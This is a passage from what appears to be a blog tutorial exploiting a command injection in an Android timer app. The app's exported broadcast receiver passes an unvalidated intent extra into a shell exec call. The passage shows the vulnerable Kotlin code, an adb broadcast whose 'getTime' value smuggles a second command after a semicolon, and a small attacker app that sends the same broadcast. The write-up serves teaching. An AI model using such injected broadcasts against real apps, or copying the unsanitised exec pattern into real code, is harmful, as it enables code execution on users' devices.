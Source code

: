 Okay now we know how to send these broadcasts.

Now let's see what the actual vulnerability in this thing is. We already know the broadcast receiver has been exported, so we have to send broadcasts to this app. But a small timer app can't cause much damage, right? Let's take a look at the disabled priority timer. Even though the app says it's disabled, the action and function for that are still defined in the broadcast receiver.

```
    private fun priortyHandler(context: Context?, intent: Intent) {
        val startTime = intent.getStringExtra("getTime")
        val key = intent.getStringExtra("key")
        if(key == "priority"){
            Runtime.getRuntime().exec(arrayOf("/system/bin/sh","-c","log Timer Started:$startTime"))
            Toast.makeText(context, "Priority Timer Completed ", Toast.LENGTH_SHORT).show()
        }
    }
```

If the action for the broadcast is `PRIORITY_ACTION`, then the `priorityHandler` function will be invoked. This function not only takes the extra "getTime" but also takes another extra called "key". If the value of "key" is "priority", it will log the time with the message "Log Timer Started: $startTime" using the `exec` command. 

Let's try if we can invoke the priortyHandler using adb. 

```
ajindeepak@Ajins-MBP ~ % adb shell am broadcast -a PRIORITY_ACTION --es getTime "0" --es key "priority"
Broadcasting: Intent { act=PRIORITY_ACTION flg=0x400000 (has extras) }
Broadcast completed: result=0
```

<img src="/static/images/posts/Broadcast/7.png" style="zoom: 50%;" />

It works! Now, if you examine the `exec` command, you can identify a vulnerability. It simply takes the value from the variable `startTime`, passed from the extra `getTime`, without any validation. This could lead to `command injection`. I can use `;` to insert a new command.

```
Runtime.getRuntime().exec(arrayOf("/system/bin/sh","-c","log Timer Started:$startTime"))
```

So let's try to inject a simple command to see if it's vulnerable using adb. I will try to create a file in the `/data/local/tmp` directory using the touch command.

```
adb shell am broadcast -a PRIORITY_ACTION --es getTime "0;touch /data/data/com.android.timer/files/nji.txt" --es key "priority"
```

<img src="/static/images/posts/Broadcast/8.png" style="zoom: 67%;" />

Woah!! The file `nji.txt` got created. Now let's create an app to do this.

```
    class MainActivity : AppCompatActivity() {

        override fun onCreate(savedInstanceState: Bundle?) {
            super.onCreate(savedInstanceState)
            setContentView(R.layout.activity_main)

            Intent("PRIORITY_ACTION").also { intent ->
                intent.putExtra("getTime", "0;touch /data/data/com.android.timer/files/nji.txt")
                intent.putExtra("key","priority")
                sendBroadcast(intent)
            }
        }
    }
```
